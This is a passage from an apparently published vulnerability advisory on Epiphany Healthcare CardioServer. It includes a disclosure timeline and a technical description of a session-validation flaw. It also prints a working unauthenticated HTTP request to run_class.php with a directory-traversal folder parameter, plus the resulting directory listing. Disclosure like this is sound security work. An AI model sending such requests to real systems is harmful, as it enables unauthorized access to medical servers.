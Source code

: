 
## Report Timeline

* 2019-02-27: Atredis Partners sent an initial notification to vendor, including a draft advisory
* 2019-02-27: Epiphany Healthcare confirmed receipt of the advisory
* 2019-05-23: Atredis Partners provided a copy of the advisory to CERT/CC
* 2019-07-10: Atredis Partners published the advisory


## Technical Details


### Improper Session Validation

Session authorization is enforced by PHP include() call to `/library/sessionValid.php`. This code validates that a server-side session is active and that variables within that session are adequately set. When a session is not valid, a snippet of JavaScript is included in the HTTP response with the desired effect of redirecting the user to the login page; however, there is no logic to stop the application logic from continuing to execute. As a result, it is possible for an attacker to execute application logic that uses this include for  authorization, including `/library/run_class.php`, which can be used to require a file, instantiate a class, and execute a function within that class without proper authorization. This can be used to delete files, get directory listings, and execute other logic present in the application.

Request:
```
GET /library/run_class.php?class=pdfname&page=&action=filepage&folder=../../../../../../../../../../cs/php/upload/mods/ecg/raw_ecg-hp_xml HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Response (JavaScript snippet and Directory Listing):
```
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Server: Microsoft-IIS/8.5
X-Powered-By: PHP/5.6.35
X-Powered-By: ASP.NET
Date: Wed, 02 Jan 2019 15:20:08 GMT
Connection: close
Content-Length: 3979

<script language="JavaScript">
		          top.logOut('Your CardioServer session has expired, please log-in again.');
                  </script>

<table class='tabOuter' style='width: 600px;'>
	<tr class="tabHdr">
		<td colspan="1" align="left"><span id='997'>PDF Import</span></td>
		<td colspan="2" align="right">9<span id='6729'> Files Found</span></td>
	</tr>
	<tr>
		<td colspan="3" class='tabSubHdr'><span id='6738'>Select a Sub Directory</span> <select id="folder" name="smfield^folder[]"  onchange='getFiles2()'  class="tabSrchParams">
					 <option value=""/> 	           	  </select> </td>
  </tr>
```